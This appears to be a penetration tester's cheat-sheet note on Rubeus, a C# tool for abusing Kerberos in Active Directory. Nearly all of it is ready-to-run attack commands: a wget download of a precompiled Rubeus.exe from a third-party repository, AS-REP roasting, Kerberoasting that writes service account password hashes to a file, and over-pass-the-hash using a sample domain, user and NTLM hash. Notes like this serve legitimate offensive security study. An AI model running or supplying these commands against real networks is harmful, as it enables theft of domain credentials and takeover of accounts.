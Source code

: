 > A C# toolset for raw Kerberos interaction and abuses.


#Active_Directory_Authentication #NTLM_Hash

# Download

Download pre compiled binary
```
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe
```

# Usage

Use Rubeus to get the AS-REP hash (AS-REP Roasting)
- Get user password hashes that "Do not require Kerberos preauthentication"
```
.\Rubeus.exe asreproast /nowrap
```

Use Rubeus to get the TGS-REP hash (Kerberoasting)
- Get service account password hashes
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

#Over_Pass_the_Hash 

Use Rubeus to get the TGT (Over Pass the Hash)
```
.\Rubeus.exe asktgt /domain:hentai.com /user:salesman /ntlm:670094d6972f341be984cef6d8c93069 /ptt
```
- `asktgt`
	- Ask the KDC to generate a TGT ticket for us